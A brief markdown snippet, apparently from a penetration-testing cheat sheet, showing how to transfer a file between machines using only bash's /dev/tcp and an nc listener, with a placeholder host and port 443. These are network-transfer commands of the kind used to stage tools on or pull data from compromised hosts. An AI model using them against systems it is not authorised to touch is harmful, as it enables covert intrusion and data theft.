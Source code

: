 ## transfer / download files with just bash
### receive
```bash
LHOST=1.2.3.4
LPORT=443
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
### send
```bash
LPORT=443
nc -lvnp $LPORT < filename
```


